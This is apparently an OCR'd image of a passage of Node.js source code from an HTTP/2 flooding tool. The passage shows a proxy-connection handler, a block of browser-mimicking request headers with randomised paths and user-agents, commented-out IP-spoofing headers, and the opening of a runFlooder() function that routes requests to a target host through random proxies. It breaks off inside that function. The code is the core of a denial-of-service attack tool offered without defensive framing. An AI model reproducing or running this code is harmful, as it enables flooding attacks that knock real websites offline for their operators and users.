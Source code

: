      connection.on("data", chunk => {
         const response = chunk.toString("utf-8");
         const isAlive = response.includes("HTTP/1.1 200");
         if (isAlive === false) {
             connection.destroy();
             return callback(undefined, "error: invalid response from proxy server");
         }
         return callback(connection, undefined);
     });
 
     connection.on("timeout", () => {
         connection.destroy();
         return callback(undefined, "error: timeout exceeded");
     });
 
     connection.on("error", error => {
         connection.destroy();
         return callback(undefined, "error: " + error);
     });
 }
 }

 const Socker = new NetSocket();
 headers[":method"] = "GET";
 headers[":authority"] = parsedTarget.host;
 headers[":path"] = parsedTarget.path + "?" + randstr(5) + "=" + randstr(25);
 headers[":scheme"] = "https";
 headers["x-forwarded-proto"] = "https";
 headers["accept-language"] = lang;
 headers["accept-encoding"] = encoding;
 //headers["X-Forwarded-For"] = spoofed;
 //headers["X-Forwarded-Host"] = spoofed;
 //headers["Real-IP"] = spoofed;
 headers["cache-control"] = control;
 headers["sec-ch-ua"] = '"Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"';
 headers["sec-ch-ua-mobile"] = "?0";
 headers["sec-ch-ua-platform"] = "Windows";
 //headers["origin"] = "https://" + parsedTarget.host;
 //headers["referer"] = "https://" + parsedTarget.host;
 headers["upgrade-insecure-requests"] = "1";
 headers["accept"] = accept;
 headers["user-agent"] = randstr(15);
 headers["sec-fetch-dest"] = "document";
 headers["sec-fetch-mode"] = "navigate";
 headers["sec-fetch-site"] = "none";
 headers["TE"] = "trailers";
 //headers["Trailer"] = "Max-Forwards";
 headers["sec-fetch-user"] = "?1";
 headers["x-requested-with"] = "XMLHttpRequest";
 
 function runFlooder() {
     const proxyAddr = randomElement(proxies);
     const parsedProxy = proxyAddr.split(":"); 
	 //headers[":authority"] = parsedTarget.host;
         headers["referer"] = "https://" + parsedTarget.host + "/?" + randstr(15);
         headers["origin"] = "https://" + parsedTarget.host;
